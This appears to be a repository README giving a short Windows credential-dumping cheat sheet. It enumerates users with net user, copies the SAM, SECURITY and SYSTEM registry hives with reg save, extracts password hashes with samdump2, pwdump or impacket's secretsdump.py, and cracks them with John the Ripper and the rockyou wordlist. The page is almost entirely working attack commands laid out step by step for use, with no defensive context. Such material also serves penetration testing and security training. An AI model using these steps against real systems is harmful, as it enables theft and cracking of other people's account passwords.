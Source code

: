 ## Useful commands
### net
#### To list the user accounts on system
```cmd
net user
```
#### To details of the user account on system
```cmd
net user Administrator
```
## Obtain Windows Passwords.
### Windows Credentials will be store in sam database
```cmd
dir \windows\system32\config
```
### Take the backup of the registry 
```cmd
reg save hklm\sam sam.save
reg save hklm\security security.save
reg save hklm\system system.save
```
### Process these files to extract the hashes
Copy these files to Kali and run below commands to extract the hashes:
#### Method1: Using samdump2
```bash
# samdump2 system.save sam.save
``` 
#### Method2: Using pwdump
```bash
# pwdump system.save sam.save
``` 
#### Method3: Using secretsdump.py from python-impacket
```bash
# python /usr/share/doc/python-impacket/examples/secretsdump.py -sam sam.save -system system.save LOCAL
``` 
### Extract the hashes to plain text
#### Use john ripper to extract the hashes
Copy the hashes obtained from above step into the file `myhash.txt` and run below command.
```bash
# john myhash.txt --wordlist=/usr/share/wordlist/rockyou.txt --format=NT-old
```
## miscellaneous